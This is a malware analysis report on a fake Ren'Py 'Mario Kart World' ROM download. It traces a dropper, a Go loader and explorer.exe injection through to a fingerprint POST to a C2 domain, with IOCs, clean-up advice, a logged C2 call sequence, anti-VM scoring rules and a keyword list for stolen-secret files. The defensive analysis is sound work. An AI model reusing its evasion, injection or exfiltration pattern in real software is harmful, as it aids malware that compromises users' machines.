


# FalconBridge: analysis of a fake "Mario Kart World" Switch 2 ROM loader

> Malware analysis report, indicators of compromise, instrumentation tooling and a clean-up script for a
> multi-stage infection chain distributed as a fake **"Mario Kart World Nintendo Switch 2 (NSP XCI) ROM Download"**.

| | |
|---|---|
| **Analyst** | 3ldidi94 |
| **Work period** | 14 and 15 November 2026 (local time, CET) |
| **Sample** | Folder "Mario Kart World Nintendo Switch 2 (NSP XCI) ROM Download" |
| **Environment** | Windows 11 x64 VM (VMware), host-only network with no gateway, no Internet access |
| **Scope** | Sections 1 to 4 contain only what was read in the files or seen in the VM. Section 5 gathers third-party sources. |
| **Status** | Working document. Findings relate to a single sample and a single execution environment. |

**Contents**

1. [Summary](#1-summary)
2. [Indicators of compromise](#2-indicators-of-compromise)
3. [Technical details](#3-technical-details)
4. [Execution in the virtual machine](#4-execution-in-the-virtual-machine)
5. [Family and open sources](#5-family-and-open-sources)
6. [Repository contents and clean-up script](#6-repository-contents-and-clean-up-script)

**Evidence levels used throughout**

| Label | Meaning |
|---|---|
| `seen` / `run` | observed during execution in the VM |
| `read` | established by reading the files or the code |
| `not observed` | looked for, not seen |
| `external` | taken from a third-party source, not reproduced here |

---

## 1. Summary

> **Any machine on which this "game" was launched should be treated as compromised.**
> We did not see persistence or data theft beyond the machine fingerprint, but the chain injects code into
> `explorer.exe`, which prepares to send that fingerprint (including the list of installed software) to a
> third-party server.

| | |
|---|---|
| **2 s** | between loader launch and the first WinHTTP call inside `explorer.exe` |
| **1,035 B** | bytes in the body of the prepared `POST /` |
| **0** | Autoruns differences before/after (first run) |
| **10** | runs performed in the VM (see 4.2 and 4.7) |

The folder "Mario Kart World Nintendo Switch 2 (NSP XCI) ROM Download" is a booby-trapped Ren'Py project. Its
start-up script decrypts an executable hidden in a data file, writes it to the temp folder and launches it with
no window.

That executable is a loader written in Go. In a virtual machine it drops a second program, `dexter.exe`, and
starts it. `dexter.exe` then injects a 645 KB PE into the session's `explorer.exe` through a remote thread, and
exits (see 3.9). Two seconds after the loader starts, the code running inside the session's `explorer.exe`
opens a WinHTTP session to `sigmon-zz.mom` on port 443 and prepares a `POST /` request. A message box titled
"yolo", with Russian text, appears during execution.

### The chain in five steps



- Step 2 shows the "yolo" window (Russian text) when run (`seen`).
- Step 3, run alone: "yolo" window, two `IsDebuggerPresent` calls, exits in under 10 s (`seen`).
- Step 5: the server's reply was **never observed** (isolated VM).

### What is established and what is not

| Established | Not established |
|---|---|
| How the Ren'Py dropper works, read in its code and checked against its files. | Whether and what the server answers. The VM never reached the Internet; the server never received the request and therefore returned nothing we could observe. |
| The Go loader contains `dexter.exe`; the file dropped in the VM has the same hash as the one extracted by hand. | Persistence: none seen (Autoruns comparison identical over a full run, and the injected code requests no registry-write or task-creation primitive). |
| Launching the loader is followed, inside `explorer.exe`, by WinHTTP calls to `sigmon-zz.mom`. | Data theft beyond the machine fingerprint: none seen. The functions called after injection are all read-only. |
| The "yolo" window appears with the loader and with `dexter.exe` alone. | Trigger of the "yolo" window: systematically shown in early runs, no longer shown in later runs; the environment check that triggers it is not identified. |
| The injection of `dexter.exe` into `explorer.exe` through a remote thread (`NtOpenProcess`, RWX `NtAllocateVirtualMemory`, two `NtWriteVirtualMemory`, `NtCreateThreadEx`), reproduced over two launches (run 6). | The encryption algorithm of the `POST` body: `BCrypt*` is used, but the instance and key source were not traced (see 3.10). |
| The content of the `POST` body: a 1,283-byte machine fingerprint, LZNT1-compressed then encrypted, deterministic on a given machine (run 7, send forced to succeed). | |

### What to do now

1. Block `sigmon-zz.mom` outbound (DNS, proxy, firewall).
2. Hunt for `dexter.exe` and `win_*.exe` in user temp folders, then for the hashes in section 2.
3. Search proxy logs for the User-Agent `aioppaely` and the domain.
4. On an affected machine: isolate, reboot (code runs inside `explorer.exe`), then change passwords from another
   device. That last step is precautionary and motivated by the sources in section 5.

The [clean-up script](#6-repository-contents-and-clean-up-script) automates the audit and the safe parts of the
clean-up.

---

## 2. Indicators of compromise

Each row states where it comes from: `run` for what was seen in the VM, `read` for what comes from the files.
Indicators taken from external sources are kept apart at the end of this section.

### A. SHA-256 hashes

| File | Size (B) | SHA-256 | Origin |
|---|---:|---|---|
| Go loader `payload.bin` | 4,075,952 | `e3fe8f6367af8cb29f75abd5dd54385829c0dc7555e286e74dc6b2e4889c74da` | run |
| `dexter.exe` | 722,432 | `9335165e6e20f07fcad24a6e3f3d67a6e044dd906a9c88fdfbe7328e9ebe6433` | run |
| `data\oKN_9105.Ox` | 4,076,072 | `2d16aa7e9a26c54cfba5111cb109f701b5b9fba052c74684a37fd5256ae9dee9` | read |
| `data\.a9L` | 300 | `53e4f108db5cebc7d38119721c00b1550bdce662c171a3d04c63556f1564c8d4` | read |
| `data\script.rpy` | 3,143 | `55c6772848c1d1aa26d95a971f6bd36a2f593f93e8a6d46adb522080865e0b3e` | read |
| `…\sys_config\sys_check.py` | 2,828 | `3c29538598e4dfbd312b9ebe3cd82c1891082f1f7732171761b6b858ce45d0de` | read |
| `…\sys_config\__init__.py` | 116 | `68e89c14ff06fe2a75b343e279dae1d5ea64e6e46988fb44148eaebc3ed8d09b` | read |

### B. Host

| Type | Value | Note | Origin |
|---|---|---|---|
| File | `%TEMP%\dexter.exe` | dropped by the loader | run |
| File | `%TEMP%\win_vecgnn.exe` | name built by the dropper; general pattern `win_*.exe` | read |
| Named pipe | `\??\pipe\retrievablepervades` | created by `dexter.exe` (`NtCreateNamedPipeFile`, run 6, see 3.9) | run |
| Window | title `yolo` | Russian text, see 4.5 | run |
| Process | `explorer.exe` → WinHTTP | WinHTTP functions resolved via `GetProcAddress` right before the call | run |
| Package | `data\.a9L`, `data\oKN_9105.Ox`, `data\python-packages\sys_config\` | layout of the fake game | read |

### C. Network

| Type | Value | Origin |
|---|---|---|
| Domain | `sigmon-zz[.]mom` · TCP 443 | run |
| Request | `POST /` · 1,035-byte body, no extra headers | run |
| User-Agent | `aioppaely` | run |

### D. Strings and keys

| Where | Value | Origin |
|---|---|---|
| Go loader | `FalconBridgeSystems/main.go` | read |
| Go loader | `C:\Program Files\downright\oebsosaentz.inf` and `C:\Program Files\Python310\uollsuiept.pdf`: paths present in the binary, **never created** during our runs | read |
| Standard output | `||| round: 15 value: 257 flips: 11` | run |
| `script.rpy` | config key `bbe3459b1eaa00cf480c2467288aed93` | read |
| Config | `pasw=Hcq2Rwrm` · `rand=vecgnn` · `pb_s=S_S901_eb19_npd_61` | read |

### E. Copy-paste block

A plain-text version is also available in [`iocs/iocs.txt`](iocs/iocs.txt).

```text
e3fe8f6367af8cb29f75abd5dd54385829c0dc7555e286e74dc6b2e4889c74da  payload.bin (Go loader)
9335165e6e20f07fcad24a6e3f3d67a6e044dd906a9c88fdfbe7328e9ebe6433  dexter.exe
2d16aa7e9a26c54cfba5111cb109f701b5b9fba052c74684a37fd5256ae9dee9  data\oKN_9105.Ox
53e4f108db5cebc7d38119721c00b1550bdce662c171a3d04c63556f1564c8d4  data\.a9L
55c6772848c1d1aa26d95a971f6bd36a2f593f93e8a6d46adb522080865e0b3e  data\script.rpy
3c29538598e4dfbd312b9ebe3cd82c1891082f1f7732171761b6b858ce45d0de  sys_config\sys_check.py
68e89c14ff06fe2a75b343e279dae1d5ea64e6e46988fb44148eaebc3ed8d09b  sys_config\__init__.py
sigmon-zz[.]mom:443
POST /  User-Agent: aioppaely
%TEMP%\dexter.exe
%TEMP%\win_*.exe
\??\pipe\retrievablepervades
```

### F. Discarded and external

**Do not use**

- Registry value `308046B0AF4A39CB`: first written before the sample was launched.
- Keys `…\MpeHttpExt\Payload`, `…\TenantRestrictions\Payload`, `Tcpip\Parameters`: opened as WinHTTP initialises, consistent with its normal behaviour.
- The `renpy`, `lib`, `data` folders: every legitimate Ren'Py game has them.
- Registry values with a 16-hex-digit name under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Notifications\Data`: present on clean Windows installations, so not usable as an indicator.

**From a public sandbox, not reproduced (`external`)**

For the `dexter.exe` hash, Hybrid Analysis lists: mutex `satirisedlimit`, pipe `\\.\pipe\retrievablepervades`,
`%WINDIR%\TEMP\VXOLE64.DLL` and `VXSSL64.DLL`, PDB `prisnet.pdb`, imphash `550d33fa8c0b9db6fcb6e3383f652a83`,
IP `104.21.58.80`. Usable for hunting, to be confirmed. The `retrievablepervades` pipe was, however, seen by us
(run 6, see 3.9). The mutex and the `VX*.DLL` files were not.

---

## 3. Technical details

What the files contain, in the order the chain uses them, followed by the dead ends we hit along the way.

### 3.1 The distributed package

```text
Mario Kart World Nintendo Switch 2 (NSP XCI) ROM Download\
├── Setup.exe                      104,448
├── setup.py                         8,944
├── lib\                           (runtime)
├── renpy\common\                  118 × .rpy / .rpyc  (Ren'Py engine)
└── data\
    ├── script.rpy                   3,143   start-up script
    ├── .a9L                           300   encrypted config
    ├── oKN_9105.Ox              4,076,072   encrypted archive
    └── python-packages\sys_config\
        ├── __init__.py                116
        └── sys_check.py             2,828   VM / sandbox scoring
```

The `data` folder holds only these five files. The only script specific to the "game" is `data\script.rpy`,
whose first line is the comment `# script.rpy - RenPy Loader dropper (adaptive)`.

### 3.2 What the start-up script does

```text
.a9L  →  base64  →  XOR bbe3459b…ed93  →  JSON config
config.snd_bx  →  sys_config.is_sandboxed() ≥ 0.5 ?  →  silent stop
oKN_9105.Ox  →  XOR Hcq2Rwrm  →  ZIP  →  payload.bin  →  %TEMP%\win_vecgnn.exe  →  detached launch, no window
```

The three phases of the script, as written. It runs in an `init python` block, before anything is displayed, and
ends with `renpy.quit()`.

- The config key is hard-coded in the script.
- The `mode` field selects one of two branches: direct in-memory execution (`shellcode`) or write-to-disk then launch. This sample uses the latter.
- If the detached launch fails, the script falls back to opening the file through the shell.
- Every error is swallowed by an `except: pass`: the user sees nothing.

### 3.3 The decrypted configuration

| Field | Value | Effect |
|---|---|---|
| `file_nm` | `oKN_9105.Ox` | encrypted file to read |
| `pasw` | `Hcq2Rwrm` | XOR key for that file |
| `mode` | `dropped_exe` | write to disk, then launch |
| `rand` | `vecgnn` | yields `win_vecgnn.exe` |
| `snd_bx` | `true` | anti-VM check enabled |
| `pb_s` | `S_S901_eb19_npd_61` | not read by the script |
| `exc_fl` | (empty) | not read by the script |
| `hash` | `2d16aa7e…` | equals the SHA-256 of `oKN_9105.Ox` |

Two checks made on the encrypted file: its SHA-256 equals the `hash` field; XOR-ing its first four bytes with
`Hcq2` gives `50 4B 03 04`, the ZIP signature.

### 3.4 The dropper's anti-VM check

| `sys_check.py` test | Points |
|---|---:|
| fewer than 2 logical CPUs | +1 |
| less than 4 GB physical memory | +1 |
| `HKLM\SOFTWARE\VMware, Inc.\VMware Tools` · `…\Oracle\VirtualBox Guest Additions` · `…\Services\VBoxGuest` | +1 per key |
| MAC starting with `000569` `000c29` `001c42` `080027` `00155d` | +1 |
| `vmtoolsd.exe` · `VBoxService.exe` · `vboxheadless.exe` · `qemu-ga.exe` in `tasklist` | +1 |

From two points up, `is_sandboxed()` returns 1.0 and the dropper gives up. The function writes nothing and
leaves no trace.

### 3.5 Three nested files

```text
data\oKN_9105.Ox  · 4,076,072 · XOR-masked ZIP archive
└── payload.bin   · 4,075,952 · Go loader, PE x64 · e3fe8f63…
    └── dexter.exe · 722,432 · at offset 2,216,464 (0x21D210), a complete PE x64 in the clear · 9335165e…
```

Manual extraction of `dexter.exe` and the file dropped in the VM give the same hash.

### 3.6 The Go loader

- PE x86-64 built with Go. Visible source path: `FalconBridgeSystems/main.go`.
- Functions in package `main` have random names, as the garble tool produces.
- Useful code is buried in no-op routines: repeated sorts of sixteen-integer arrays that print `||| round: … value: … flips: …` lines. Those lines really do appear on standard output at run time.
- Strings are in the clear. They include Windows API names (`VirtualAlloc`, `VirtualProtect`, `CreateProcessW`, `SetThreadContext`, `ResumeThread`, `WSA*` functions) and two paths under `C:\Program Files`. A string being present does not mean it is used: neither path was ever created.

### 3.7 dexter.exe

- Native PE x86-64, 722,432 bytes, `MZ` header.
- Run alone, it lives under ten seconds. Logged in that time: two `IsDebuggerPresent` calls, resolution of `AppPolicyGetProcessTerminationMethod`, `VirtualProtect` calls on 256 bytes of its own image (read-write 0x4 then read-only 0x2), one `NtCreateThreadEx`.
- It exits without going through any of the monitored exit functions (`ExitProcess`, `TerminateProcess`, `NtTerminateProcess`, `RtlExitUserProcess`, C runtime `exit`).
- No network call, registry write or process creation was logged in its own process.

### 3.8 Dead ends and corrections

| Lead | What it turned out to be |
|---|---|
| `main.i7j7sfh`, "string decryptor" | Almost entirely filler. Its only useful action is slicing a substring. There is nothing to decrypt or emulate. |
| Server address in the files | Not found by reading, neither in `dexter.exe` nor in the injected PE recovered from memory. The domain only appears as it is passed to `WinHttpConnect`, built by the obfuscated pool. |
| "yolo" window = `MessageBox` | In `dexter.exe`, neither the replaced `MessageBoxW/A` nor the monitored `MessageBoxEx`, `MessageBoxTimeout`, `CreateWindowEx`, `DialogBox*` fired. The Russian text is not present either in the injected PE recovered from memory. The window comes from a distinct component that our hooks did not touch. |
| APC injection | Initial hypothesis (the public Hybrid Analysis report mentions `NtQueueApcThread`). When instrumenting `dexter.exe`, no `NtQueueApcThread`. The injection uses a remote `NtCreateThreadEx`. |
| Client-side TLS pinning check | Monitoring of `WinHttpSetOption`, `WinHttpQueryOption`, `CertGetCertificateChain`, `BCryptVerifySignature`. Only option touched: `HTTP_VERSION`. No pinning, no bypass: the code relies on the machine's root store. |
| Registry value `308046B0AF4A39CB` | First taken for persistence. Rewritten every two minutes in `explorer.exe`, starting before the sample was launched: unrelated. |
| "The server answered" | A misread counter that was summing hook-installation lines. There is no `WinHttpReadData` event in the log. |
| Silent hooks on the first run | Frida 17 removed `Module.findExportByName`; the script stopped during installation. Fixed with a compatibility shim. |

### 3.9 Injection mechanism and content sent

#### Injection into `explorer.exe`

Measured by instrumenting `dexter.exe` on `ntdll` only, without touching the loader. Sequence observed, reproduced
identically over two launches:

```text
CreateFileW "C:\Program Files\Python310\uollsuiept.pdf"      (open attempt, path absent from disk)
NtCreateNamedPipeFile "\??\pipe\retrievablepervades"
FindWindowA "Shell_TrayWnd"                                   (locating the active explorer)
NtOpenProcess pid=<explorer> access=0x478                     (read + write + memory operations + handle duplication)
NtAllocateVirtualMemory 0xAE000 bytes, protection 0x40       (read-write-execute)
NtWriteVirtualMemory 540,067 bytes at the start of the region
NtWriteVirtualMemory 169,716 bytes 540,067 bytes further
NtCreateThreadEx remote, entry point inside the allocated region
   -> dexter.exe exits within the second
```

Standard remote-thread injection. No APC, no "doppelgänging", no shared section. Both blocks are encrypted when
written; once the thread starts, the code decrypts in place, and the region contains a complete 645 KB PE at
offset 0xb000 (nominal ImageBase 0x180000000, 8 sections including `.tls` and `.fptable`, PDB path
`prisnet.pdb`).

#### Content of the body sent

Recovered by making the code believe the send succeeded (without that, it never writes its body). Processing
chain, observed:

```text
machine fingerprint, cleartext, 1,283 bytes
   |
   RtlCompressBuffer (LZNT1, fmt=0x02)
   v
compressed buffer, 988 bytes
   |
   BCrypt* (algorithm not identified here)
   v
POST body, 1,035 bytes, sent through WinHttpWriteData
```

The cleartext contains, in order: a 64-char hex identifier (`095a9e…`, 32 bytes); raw CPUID; CPU name; graphics
adapter (`VMware SVGA 3D` in our case, hardening does not sanitise that field); system language; Windows
version; screen resolution; username; host name; the **full list of installed software** with versions, read from
`HKLM\SOFTWARE`. The encrypted 1,035-byte body is identical across launches on the same machine.

#### Server response

Not observed. The VM has no route to the Internet and we chose not to open one to the operator's
infrastructure. `sigmon-zz.mom` resolution fails, `WinHttpSendRequest` returns `FALSE`, the code parses nothing.

#### API surface of the injected component

Monitoring of the `GetProcAddress` calls issued by code that sits outside any loaded module (i.e. the injected
code). Full list observed:

| Family | Functions resolved |
|---|---|
| HTTP | `WinHttpOpen`, `WinHttpSetTimeouts`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpWriteData`, `WinHttpReceiveResponse`, `WinHttpQueryHeaders`, `WinHttpQueryDataAvailable`, `WinHttpReadData`, `WinHttpCloseHandle` |
| Crypto / compression | `BCryptOpenAlgorithmProvider`, `BCryptCreateHash`, `BCryptHashData`, `BCryptFinishHash`, `BCryptDestroyHash`, `BCryptCloseAlgorithmProvider`, `RtlGetCompressionWorkSpaceSize`, `RtlCompressBuffer` |
| Registry (`read` only) | `RegOpenKeyExW`, `RegEnumKeyExW`, `RegQueryValueExW`, `RegCloseKey` |
| Machine info | `GetSystemFirmwareTable`, `GlobalMemoryStatusEx`, `GetSystemMetrics`, `GetVolumeInformationW`, `GetEnvironmentVariableW`, `RtlGetVersion`, `EnumDisplayDevicesW`, `SetProcessDPIAware`, `GetUserDefaultLocaleName`, `LCIDToLocaleName`, `AreFileApisANSI`, `LCMapStringEx`, `FlsGetValue2` |

No registry-write function (`RegSetValueExW`, `RegCreateKeyExW`), no process creation (`CreateProcessW`,
`ShellExecute*`, `WinExec`), no scheduled-task API and no COM-hijack API is requested. As it runs before
receiving a server response, this component by itself does not carry the capability to install persistence or
steal data.

#### Strings present in the injected DLL

Scan of the recovered PE (688 KB) against about 60 keywords (write-side APIs, autostart key paths, browser paths,
wallet paths, domain names…). Result:

| String searched | Present? |
|---|---|
| `aioppaely` | yes, plaintext |
| `prisnet` (the `.pdb` name) | yes, plaintext |
| `sigmon-zz.mom`, all fragments (`sigm`, `.mom`, `zz.mom`…) | no, neither plaintext nor UTF-16 |
| Russian text of the "yolo" window (стремительно, домино, комильфо…) | no, no occurrence |
| `RegSetValueExW`, `CreateProcessW`, `ShellExecute*`, `schtasks`, `mshta`, `cmstp`, `powershell`… | no |
| `CurrentVersion\Run`, `Winlogon`, `IFEO`, `Startup`, `Scheduled`… | no |
| `cookies.sqlite`, `logins.json`, `key4.db`, `Local State`, `wallet.dat`, `Electrum`, `Atomic`, `Bitcoin`, `Ethereum`, `mitmproxy`… | no |
| `satirisedlimit`, `retrievablepervades`, `VXOLE64`, `VXSSL64` | no |

All other strings (except `aioppaely`) are embedded in a masked pool at the end of `.rdata`. Extraction is
obfuscated via propagated register-based xors, not a simple (offset, length) pair. Breaking the pool with static
Ghidra scripts did not succeed.

### 3.10 What remains open

- The exact role of the "yolo" window. Systematically shown in the first runs, no longer shown in later runs, including with the same anti-VM hardening. The environment check that triggers it is not identified. The Russian text is not in the injected PE (neither plaintext, nor UTF-16, nor fragmented), so the component that shows it is not the one we instrumented.
- The extraction routine for the obfuscated string pool. Breaking it would reveal all constants at once (APIs resolved later, URLs, key names). Out of reach for static scripts.
- The exact format and encryption algorithm of the `POST` body. `BCrypt*` is used, but we did not trace the instance (`OpenAlgorithmProvider` with which identifier) or the key source.

---

## 4. Execution in the virtual machine

The Ren'Py dropper was not run. We extracted the loader by hand and executed it directly as
`C:\sandbox\payload.exe`.

### 4.1 Test bench

| Analysis workstation | | Windows 11 x64 VM (VMware) |
|---|---|---|
| remote control of Ghidra<br/>authoring of Frida hooks<br/>log review | host-only network, no gateway | Ghidra · Frida 17.26.3 · Python 3.12.10<br/>Procmon · Autoruns (autorunsc) · dumpcap · FakeNet-NG 3.5<br/>samples in `C:\sandbox`, snapshot taken before the runs<br/>Defender: blocked the first launch, exclusions added afterwards |

Runs 1–4: VM with a VMware MAC address (`00:0C:29…`). Before run 5: `.vmx` options hiding the hypervisor, MAC
address changed, VMware Tools removed.

### 4.2 The five runs

| # | When | Setup | Outcome |
|---|---|---|---|
| 1 | 14.11 · 22:29 | Loader, Frida on the loader | Hooks inoperative (Frida 17 incompatibility). "yolo" window. Once dismissed, the loader exits. `%TEMP%\dexter.exe` is present with the expected hash. Autoruns before/after: 1,545 lines each, no difference. The `downright` and `Python310` folders do not exist. |
| 2 | 14.11 · 23:07 | Loader, fixed hooks | Loader started at 23:07:13, `dexter.exe` at 23:07:14. "yolo" window again. By 23:08:29 `dexter.exe` is gone and the loader is still running. |
| 3 | 14.11 · 23:09 | `dexter.exe` alone, 47 hooks | Two `IsDebuggerPresent` calls. "yolo" window. Process ends in under ten seconds. |
| 4 | 14.11 · 23:18 | `dexter.exe` alone, 84 hooks | Window and exit-function monitoring added. Nine `VirtualProtect` calls, one `NtCreateThreadEx`, no window or exit event. Ends in under ten seconds. |
| 5 | 15.11 · 00:18 | Loader uninstrumented, Frida on `explorer.exe` (118 hooks) | WinHTTP calls to `sigmon-zz.mom` from `explorer.exe`. Details below. |

### 4.3 Run 5, second by second



The vertical axis is not to scale. Solid arrows: function call seen, with no proof traffic left the machine.
Dashed: not observed.

```text
00:18:13.187  GetProcAddress(WinHttpOpen)
00:18:13.191  GetProcAddress(WinHttpSetTimeouts)
00:18:13.197  WinHttpOpen         UA="aioppaely"
00:18:13.202  GetProcAddress(WinHttpWriteData)
00:18:13.206  GetProcAddress(WinHttpQueryDataAvailable)
00:18:13.211  GetProcAddress(WinHttpConnect)
00:18:13.216  GetProcAddress(WinHttpReadData)
00:18:13.220  GetProcAddress(WinHttpSendRequest)
00:18:13.225  GetProcAddress(WinHttpCloseHandle)
00:18:13.229  GetProcAddress(WinHttpQueryHeaders)
00:18:13.234  GetProcAddress(WinHttpReceiveResponse)
00:18:13.239  GetProcAddress(WinHttpOpenRequest)
00:18:13.239  WinHttpConnect      host="sigmon-zz.mom"  port=443
00:18:13.239  WinHttpOpenRequest  POST "/"
00:18:25.307  WinHttpSendRequest  hdrs=""  bodyLen=1035
```

- The WinHTTP functions are looked up one by one by name right before use; that is not how `explorer.exe` calls its own dependencies.
- Our hook reads the port as 32 bits and logged 19,988,923; the low 16 bits, the only meaningful ones, equal 443.
- The `WinHttpSendRequest` line is written when the function returns: the twelve-second gap may simply be the duration of the call.

> **Scope.** These are function calls, not traffic. The VM had no route to the Internet when last checked, the
> packet capture has not been reviewed, and the request body was not saved in this run (the dump folder was not
> writable from `explorer.exe`); it was saved in run 7.

### 4.4 Checks after run 5

| Check | Result |
|---|---|
| `%TEMP%\dexter.exe` | present, hash unchanged |
| `VX*.DLL` in temp folders | none |
| Named pipes `*retrieva*`, `*satiri*` | none |
| `SSLKEYLOGFILE`, `CURL_CA_BUNDLE` (user) | not set |
| `C:\Program Files\downright`, `…\Python310` | do not exist (checked on runs 1 and 3) |
| Autoruns | not repeated after run 5 |

### 4.5 The "yolo" window

A standard message box with an information icon and an OK button. Text:

```text
стремительно падают — это эффект домино
да, я сейчас высоко — комильфо
они так быстро сдулись, им не повезло
в этом дерьме я лучше них определённо
```

Rough translation: "they're falling fast, it's the domino effect / yes, I'm high right now, comme il faut /
they deflated so quickly, bad luck for them / in this mess I'm definitely better than them".

### 4.6 Functions monitored on run 5

| Area | Functions | Events tied to the launch |
|---|---|---|
| HTTP | `WinHttpOpen/Connect/OpenRequest/SendRequest/WriteData/ReadData/QueryHeaders`, WinINet | **yes**: Open, Connect, OpenRequest, SendRequest |
| Sockets, DNS | `connect`, `send*`, `recv*`, `WSASocketW`, `getaddrinfo`, `DnsQuery_W` | `WSASocketW` × 4, not attributed |
| Registry, files | `RegSetValueExW`, `RegCreateKeyExW`, `CreateFileW`, `CopyFileW`, `MoveFileExW` | nothing attributable |
| Process, memory | `CreateProcessW`, `VirtualAllocEx`, `WriteProcessMemory`, `NtCreateThreadEx`, `NtQueueApcThread`, `NtSuspendProcess` | one `NtQueueApcThread` at 00:20:56, not attributed |
| Crypto, certificates | `CryptUnprotectData/Memory`, `BCryptDecrypt`, `CertAdd*`, `CertOpenSystemStoreW` | none |
| Misc | `CreateNamedPipeW`, `SetEnvironmentVariableW`, `GetSystemFirmwareTable`, `GetCursorPos` | `GetCursorPos` very frequent, normal `explorer.exe` activity |

### 4.7 Additional targeted runs

Goal: close the three open questions (injection, body content, "yolo" window). Each hook set is light and
targeted, to avoid crashing the Go loader under instrumentation (seen with a wider hook set triggering a Go
`syscall.Call` panic).

| # | Setup | Outcome |
|---|---|---|
| 6 | `dexter.exe` alone, `ntdll` hooks only ([`inj.js`](tooling/inj.js)) | Full capture of the injection mechanism: `NtOpenProcess`, `NtAllocateVirtualMemory`, two `NtWriteVirtualMemory`, `NtCreateThreadEx`. Two blobs saved to disk, 540,067 and 169,716 bytes, encrypted. |
| 7 | Attach to explorer, force the send to succeed ([`bodycap.js`](tooling/bodycap.js), [`comp.js`](tooling/comp.js)) | Interception of `WinHttpSendRequest` and `WinHttpWriteData`. The `FALSE` return value is rewritten to `TRUE` so the code actually writes its body. The 1,035-byte buffer is saved, and so are the `RtlCompressBuffer` buffers (1,283-byte cleartext input, 988-byte compressed output). Three successive launches yield: identical cleartext (same SHA-256), identical compressed, identical encrypted: the body is deterministic per machine identity. |
| 8 | Recovery of the injected PE in memory ([`memdump.js`](tooling/memdump.js)) | Light hook that waits 5 s then lists new private executable ranges in `explorer.exe`. A 0xA8000-byte range appears, containing an x86-64 PE at offset 0xB000, ImageBase 0x180000000, 8 sections, `prisnet.pdb` in the debug directory. 688,128 bytes saved to disk. |
| 9 | Probing of client-side TLS checks ([`tlscheck.js`](tooling/tlscheck.js)) | Interception of `WinHttpSetOption`, `WinHttpQueryOption`, `CertGetCertificateChain`, `BCryptVerifySignature`. The only option set by the code: `HTTP_VERSION`. No pinning. |
| 10 | Inventory of `GetProcAddress` issued by the injected code ([`resolve.js`](tooling/resolve.js)) | Filtered by return address outside any loaded module. Full list of resolved functions: see 3.9. No registry-write or process-creation primitive is requested. |

An additional experiment, [`smbios_vm.js`](tooling/smbios_vm.js), re-inserts a "VMware" string into the SMBIOS
table returned by `GetSystemFirmwareTable` to test whether the injected code changes behaviour.

### 4.8 Retained material

The raw logs and memory dumps stay with the analyst, in the analysis VM. **No malware sample, dump or
decrypted payload is published in this repository.**

| Item | Content |
|---|---|
| Run 5 log | 137,939 bytes |
| Autoruns exports, Procmon log, packet capture (not reviewed) | VM, `C:\sandbox\capture\` |
| Two encrypted blobs written into `explorer.exe` | 540,067 and 169,716 bytes |
| Private executable range recovered from `explorer.exe` | 688,128 bytes; complete x64 PE at offset 0xB000 |
| Cleartext of the machine fingerprint sent | 1,283 bytes |
| Encrypted body of the `POST` | 1,035 bytes |
| Extracted PE, section raw offsets realigned for Ghidra | 645 KB; imported in the Ghidra project (424 functions analysed) |

---

## 5. Family and open sources

> **Everything in this section comes from third-party publications**, consulted on 15 November 2026. Nothing
> below was reproduced by us unless stated. Parallels with our sample are flagged as such.

### 5.1 The first link: "RenPy Loader" / "RenEngine Loader"

Since 2025 several vendors have described a loader hidden in fake Ren'Py games, spread through pirated-game,
crack and mod sites. The Ren'Py engine itself is legitimate; the bundled script is what is malicious.

| Date | Source | Summary |
|---|---|---|
| 03.2025 | Kaspersky | First detections, final payload Lumma. |
| 02.2026 | Cyderes (Howler Cell) · Kaspersky Securelist | "RenEngine" campaign: an `is_sandboxed` function, a XOR-decrypted ZIP archive, then HijackLoader and injection into `explorer.exe`. Payloads: Lumma, ACR Stealer, Vidar. Most affected countries per Kaspersky: Russia, Brazil, Türkiye, Spain, Germany. Trade press cites over 400,000 victims. |
| 20.07.2026 | Malwarebytes | Fake games with `Setup.exe`, an MSBuild chain, server address read from a blockchain ("EtherHiding"), final payload Amatera Stealer. |
| 04.11.2026 | Gridinsoft | Overview and clean-up advice; points out that `renpy`, `game`, `lib` folders prove nothing on their own. |

#### Comparison with our sample

| | Malwarebytes sample (07.2026) `external` | Our sample `read` |
|---|---|---|
| Launcher | `Setup.exe` | `Setup.exe` |
| Anti-sandbox module | `data/python-packages/sys_config/`, `is_sandboxed()` | identical |
